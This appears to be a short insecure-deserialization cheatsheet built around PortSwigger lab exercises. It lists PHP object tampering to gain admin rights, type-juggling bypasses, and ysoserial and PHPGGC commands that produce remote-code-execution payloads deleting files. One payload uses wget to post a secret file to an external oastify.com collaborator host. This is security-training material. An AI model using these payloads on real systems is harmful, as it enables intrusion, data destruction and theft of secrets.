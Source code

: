 ```yaml
---
title: Insecure deserialization
description: Insecure deserialization cheatsheet
---
```


# Insecure deserialization

## Definition

**Insecure deserialization** is a type of computer security vulnerability that occurs when untrusted data is used to deserialize (i.e., recreate) an object in a computer system. This can allow an attacker to execute arbitrary code and potentially compromise the security of the system.

## Cheatsheet

- Java serialize : `0xACED` or `rO0` (base64)
- Ruby serialize : `\x04\bo:\vUser`
- Modify PHP attribute `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` to `b:1`
- Change data type for low comparaison bypass `0 == "Example string" // true`
- Replace `avatar` path in your cookie and delete your account, the file will be delete
- Add `index.php~` to find backup code source
- Inject another PHP object with magic method (__destruct or __wakekup, ...)
- `rm /home/carlos/morale.txt` using pre-built Apache Common gadget chain
- Switch to JDK 11, `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w0 | copy`
- PHPGGC - `./phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt'`
- Ruby https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
- `java -jar ysoserial-all.jar CommonsCollections6 'wget --post-file /home/carlos/secret 9hr1ibjg8nya8uzi0bfs85n4yv4mscg1.oastify.com' | gzip -f | base64 -w0 | copy`

## References

- [PortSwigger - Insecure deserialization](https://portswigger.net/web-security/deserialization)
